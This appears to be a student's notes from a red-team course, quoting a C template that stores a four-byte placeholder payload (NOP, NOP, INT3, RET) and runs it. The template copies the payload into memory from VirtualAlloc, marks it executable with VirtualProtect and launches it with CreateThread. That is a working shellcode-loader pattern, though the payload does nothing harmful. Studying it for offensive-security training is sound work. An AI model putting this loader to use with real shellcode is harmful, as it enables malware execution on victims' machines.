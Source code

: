 
> The only difference between storing it as a container (in .data) and in the code section is that the payload is stored as a global variable 

Snippet
```c
/*

 Red Team Operator course code template
 storing payload in .text section
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// 4 byte payload
unsigned char payload[] = {
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
};

unsigned int payload_len = 4;

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

![[Pasted image 20251028113957.png]]

